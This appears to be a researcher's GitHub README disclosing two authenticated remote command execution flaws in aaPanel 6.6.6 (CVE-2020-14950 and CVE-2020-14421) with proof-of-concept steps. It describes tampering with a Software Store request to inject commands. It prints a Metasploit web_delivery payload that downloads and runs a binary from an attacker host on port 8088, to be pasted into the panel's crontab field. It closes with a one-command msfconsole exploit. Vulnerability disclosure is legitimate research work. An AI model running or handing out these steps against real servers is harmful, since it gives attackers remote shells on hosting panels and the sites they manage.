 # aapanel

## aapanel 6.6.6 - CVE-2020-14950

* Description : allows remote authenticated users to execute arbitrary commands via the setting menu of Sotfware Store.
* Affected version : All <= 6.6.6

### Information

To make this PoC, I just installed the software using docker-compose

* Vulnerability Type : Remote command execution (Authenticated RCE)

### POC

Go to Software Store, click on any row from the setting's field, intercept the request when you click on "start/stop/restart" and modify/edit the resquest to execute what you want. Here is an example with curl : 

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/aapanel/master/injectionCommandStore.png">

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/aapanel/master/getCurl.png">

## aapanel 6.6.6 - CVE-2020-14421

* Description : Allows attacker to run arbitrary command remotely
* Affected version : All <= 6.6.6

### Information

To make this PoC, I just installed fresh Ubuntu 20.04, then I installed `wget` + `sudo` and executed this script `wget -O install.sh http://www.aapanel.com/script/install-ubuntu_6.0_en.sh && sudo bash install.sh` 

* Vulnerability Type : Remote command execution (RCE Authenticated)

### POC

First of all, setup web_delivery options, this will create a payload and a listener.

<img width="1280" alt="web_delivery" src="https://raw.githubusercontent.com/jenaye/aapanel/master/web_delivery.png">

Now run it 

<img width="1280" alt="run" src="https://raw.githubusercontent.com/jenaye/aapanel/master/run.png">

this will generate the following payload: 

`wget -qO wt8v00sC --no-check-certificate http://xxxx:8088/gUVn1orp; chmod +x wt8v00sC; ./wt8v00sC& disown`

Then  copy/past like this into `script content` of crontab menu in aapanel.

<img width="1280" alt="cron" src="https://raw.githubusercontent.com/jenaye/aapanel/master/cron.png">

Now just execute your crontab and wait your session.

<img width="1280" alt="command" src="https://raw.githubusercontent.com/jenaye/aapanel/master/command.png">

### Fast Exploit

Just run `msfconsole -r aapanel.rc`  copy/paste the payload into  script content section, and enjoy your session.
